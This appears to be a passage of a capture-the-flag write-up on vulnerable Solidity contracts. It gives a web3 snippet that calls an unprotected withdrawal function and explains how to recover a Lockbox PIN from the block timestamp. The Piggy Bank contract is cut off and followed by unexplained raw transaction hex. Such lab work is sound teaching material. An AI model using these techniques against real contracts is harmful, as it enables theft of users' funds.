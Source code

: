 In this first contract, we see that we just need to call `withdrawDonationsFromTheSuckersWhoFellForIt` since it has `external` modifier.  `external` modifier denotes that function can only be called from outside of contract.

Our solution:
~~~javascript
var abi = [...]
var tokenContractAddress = "contract_address"
var contract = web3.eth.contract(abi).at(tokenContractAddress)

//set default account to account 0
web3.eth.defaultAccount = web3.eth.accounts[0];
contract.withdrawDonationsFromTheSuckersWhoFellForIt((err,res)=>{console.log(err,res);});
~~~

## Lvl 2 Lock Box

~~~solidity
pragma solidity 0.4.24;
import "../CtfFramework.sol";

contract Lockbox1 is CtfFramework{
    uint256 private pin;

    constructor(address _ctfLauncher, address _player) public payable
        CtfFramework(_ctfLauncher, _player)
    {
        pin = now%10000;
    }
    
    function unlock(uint256 _pin) external ctf{
        require(pin == _pin, "Incorrect PIN");
        msg.sender.transfer(address(this).balance);
    }
}
~~~

The second challenge is also pretty simple. Key is in the usage of `now` (an alias for `block.timestamp`) which is `uint256` value in seconds since the unix epoch.

In metamask, we can open our last transaction (that is the transaction used to create this contract), check the exact time, convert it to unix timestamp and just enter the last 4 digits to win.

## Lvl 3 Piggy Bank

~~~solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";
import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract PiggyBank is CtfFramework{
    using SafeMath for uint256;
    uint256 public piggyBalance;
    string public name;
    address public owner;
    
    constructor(address _ctfLauncher, address _player, string _name) public payable
        CtfFramework(_ctfLauncher, _player)
    {
        name=_name;
        owner=msg.sender;
        piggyBalance=piggyBalance.add(msg.value);
    }
    
~~~

[0]:  0000000000000000000000002272071889edceacabce7dfec0b1e017c6cad120
[1]:  0000000000000000000000000000000000000000000000000000000000000040
[2]:  0000000000000000000000000000000000000000000000000000000000000005
[3]:  456f733932000000000000000000000000000000000000000000000000000000
[0]:  0000000000000000000000002272071889edceacabce7dfec0b1e017c6cad120
[1]:  000000000000000000000000000000000000000000000000058d15e176280000